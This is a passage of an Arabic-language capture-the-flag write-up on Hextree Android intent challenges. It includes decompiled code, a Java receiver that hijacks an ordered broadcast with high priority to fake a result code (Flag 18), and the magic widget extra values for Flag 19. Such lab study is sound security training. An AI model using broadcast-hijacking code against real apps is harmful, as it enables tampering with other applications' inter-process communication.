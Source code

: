 ```java
                    Utils.showIntentDialog(context, "BroadcastReceiver.onReceive", intent2);
                    Flag18Activity flag18Activity = Flag18Activity.this;
                    flag18Activity.success(flag18Activity);
                }
            }
        }, null, 0, null, null);
```

الـ activity ده هيبعت ordered broadcast بالـ action `"io.hextree.broadcast.FREE_FLAG"` ويستنى رد، ولما يجيله النتيجة، رقم اسمه `resultCode` بيتشيك لو مش صفر، لو صح ف هنجيب العلم

#### الحل

يعني محتاجين نعمل receiver بالـ  filter الصح ونعمل `setResultCode` يا إما ok أو نحط رقم.

```java
BroadcastReceiver hijacker = new BroadcastReceiver() {  
    @Override  
    public void onReceive(Context context, Intent intent) {  
        setResultCode(Activity.RESULT_OK);   
        setResultData("Intercepted!");
    }  
};
IntentFilter filter = new IntentFilter("io.hextree.broadcast.FREE_FLAG");  
filter.setPriority(999); // عشان نكون أول واحد ياخذ البث لو فيه تطبيقات ثانية
registerReceiver(hijacker, filter, null, null);
```

أو نعمل receiver في سطر واحد بس:

```java
registerReceiver(hijacker, new IntentFilter("io.hextree.broadcast.FREE_FLAG"));
```

### Flag 19

#### تحليل الكود

```java
    public void onReceive(Context context, Intent intent) {
        Bundle bundleExtra;
        String action = intent.getAction();
        if (action == null || !action.contains("APPWIDGET_UPDATE") || (bundleExtra = intent.getBundleExtra("appWidgetOptions")) == null) {
            return;
        }
        int i = bundleExtra.getInt("appWidgetMaxHeight", -1);
        int i2 = bundleExtra.getInt("appWidgetMinHeight", -1);
        if (i == 1094795585 && i2 == 322376503) {
            success(context);
        }
    }
```

هنا الـ widget بياخد intent من broadcast ويشيك لو في action `APPWIDGET_UPDATE` ومعاه Extra data: i = `1094795585` & i2 = `322376503`
